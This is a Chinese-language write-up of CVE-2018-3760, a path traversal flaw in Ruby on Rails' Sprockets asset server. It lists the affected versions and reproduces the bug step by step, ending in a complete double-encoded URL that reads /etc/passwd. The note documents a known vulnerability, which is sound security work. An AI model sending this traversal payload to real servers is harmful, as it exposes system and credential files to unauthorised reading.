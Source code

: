 （CVE-2018-3760）Ruby On Rails 任意文件读取漏洞
===============================================

一、漏洞简介
------------

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On
Rails是著名的Ruby
Web开发框架，Sprockets是编译及存储静态资源文件的Ruby库。

在3.7.1及之前的版本中，存在一处因为二次解码导致的路径穿越中断，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

二、漏洞影响
------------

4.0.0.beta7及更低版本3.7.1及更低版本2.12.4及更低版本

三、复现过程
------------

### 漏洞分析

漏洞原理问题出在`sprockets`，它用来检查 JavaScript
文件的相互依赖关系，用以优化网页中引入的js文件，以避免加载不必要的js文件。当访问如`http://www.0-sec.org:3000/assets/foo.js`时，会进入`server.rb`

### 漏洞浮现

直接访问`http://www.0-sec.org:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![1.png](./.resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId26.png)

我们通过报错页面，可获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层替换，最后读取`/etc/passwd`：

    http://www.0-sec.org:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd

![2.png](./.resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId27.png)
